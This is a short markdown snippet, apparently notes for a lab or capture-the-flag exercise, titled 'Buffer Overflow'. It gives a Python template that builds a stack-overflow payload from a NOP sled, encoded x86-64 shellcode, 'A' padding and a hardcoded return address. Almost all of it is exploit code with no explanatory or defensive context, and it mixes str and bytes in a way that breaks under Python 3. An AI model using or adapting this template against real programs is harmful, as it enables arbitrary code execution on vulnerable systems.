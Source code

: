 # Buffer Overflow 

## Base python script

`
from struct import pack

nop = '\x90'

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x7e\xe4\x73\xe1\x46\x73\xf8"
buf += b"\xde\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x14\xcd\x2b\x78\x2c\x71\xa7\xb4\x7f\xba\x7c\xe4\x0e"
buf += b"\xe4\xb0\x67\x7c\xe4\x50\xc8\x4c\x7b\x07\x2a\x2f\xac"
buf += b"\xfa\x07\x2c\x63\xa2\xb4\x54\xbc\x7c\xe4\x2c\x70\xa6"
buf += b"\x96\x81\x2a\x19\xc0\x1e\x7c\xfd\xab\x88\x8e\x48\xb9"
buf += b"\xdf\x3b\x43\xf1\x1c\x8d\x1d\xce\x35\x1b\xf8\x8d\x36"
buf += b"\x6d\x94\xb3\x11\x3b\x71\x38\x71\xe1\x73\xe1\x46\x73"
buf += b"\xf8\xde"

offset = 608
jumpadd = 0x7fffffffe2fc
len_payload = offset + 8
nop_payload = 300* nop
len_shell = len(buf)
len_nop = len(nop_payload)
padding = 'A' * (len_payload - len_shell - len_nop)
payload = nop_payload + buf + padding + pack("<Q", jumpadd)

print(payload)
`

